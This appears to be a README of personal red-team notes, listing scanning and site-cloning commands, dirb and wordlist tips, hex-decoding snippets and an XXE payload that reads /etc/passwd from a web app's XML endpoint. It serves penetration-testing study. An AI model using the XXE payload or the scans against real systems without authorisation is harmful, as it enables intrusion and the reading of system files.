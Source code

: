 # Red Team

* gethead.sh - gets HEAD from some webservesr.
* getrobots.sh - get ```robots.txt``` from webservers.
* hexstr.py - converts hex-encoded str back to ascii

### Very quick ping sweep
```sudo nmap -n -sn -PE -T5 $ipRange```

### Clone web page
```wget -r -nH $url```


## Webapps

Don't forget to enumerate everything. Even the things you haven't thought of.

### dirb
* Check for cgi-bin/
* Search for different file extensions (is there a list of common file ext for brute forcing?)


# Wordlists
* [SecList - Really good wordlists](https://github.com/danielmiessler/SecLists)
* raft-large
* rockyou

# Python

## Dealing with hex encoded strings.

Convert hex to dec, 6c = 'l'
```dec = int("6c", 16)```

### Print that in ascii
```print chr(dec)```

## XXE (XML External Entity)

Find some Rest/XML API endpoint of a webapp, using POST requests you can get it to RCE.
```xml
<?xml version="1.0"?>
<!DOCTYPE food [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

